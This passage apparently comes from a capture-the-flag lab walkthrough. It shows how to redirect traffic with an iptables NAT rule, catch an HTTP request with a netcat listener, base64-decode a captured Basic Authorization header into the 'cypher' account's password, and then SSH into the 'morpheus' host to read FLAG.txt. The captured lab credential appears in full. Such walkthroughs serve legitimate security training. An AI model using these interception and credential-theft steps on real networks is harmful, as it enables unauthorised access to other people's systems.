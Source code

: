     ```shell
    
    iptables -t nat -I PREROUTING -p tcp --dport 81 -j REDIRECT --to 9999
    ```

61. Set up a `netcat` listener to catch incoming traffic on port `9999`:

    ```shell
    nc -l -p 9999
    ```

62. Wait for a little bit - eventually, you'll see an HTTP request that has an `Authorization` header in it. Here's a copy of the request on our test system:

    ```
    GET / HTTP/1.1
    Host: 172.17.0.1:81
    User-Agent: Go-http-client/1.1
    Authorization: Basic Y3lwaGVyOmNhY2hlLXByb3N5LXByb2NlZWRzLWNsdWUtZXhwaWF0ZS1hbW1vLXB1Z2lsaXN0
    Accept-Encoding: gzip
    ```

63. When you see a request come in with an `Authorization: Basic` line, copy the rest of the line after the word "Basic". The string you're looking for begins with `Y3lwaGV` and ends with `saXN0`.

64. Decode the copied string with the `base64` command, like so:

    ```
    echo "THE_STRING_YOU_GOT" | base64 -d ; echo ""
    ```

65. Review the decoded contents of the string. They will start with `cypher:` indicating that they are credentials where the username is `cypher` and the password is the text after the colon (`:`) character.

66. Copy the password - it begins with `cache-` and ends with `-pugilist`.

67. Now, start a new terminal window/tab and SSH into the `morpheus` system, using the username `cypher`.  When prompted for a password, use the decoded password you just copied. 

    *Note: we've removed copy-paste from this shell command so you won't overwrite your copy-paste buffer (which has cypher's password in it).*

    ```
    ssh cypher@morpheus
    ```

68. You've made it into the `morpheus` server! List the current directory contents in `cypher`'s home directory:

    ```shell
    ls
    ```

69. Look at the `FLAG.txt` file in this directory:

    ```shell
    cat FLAG.txt
    ```
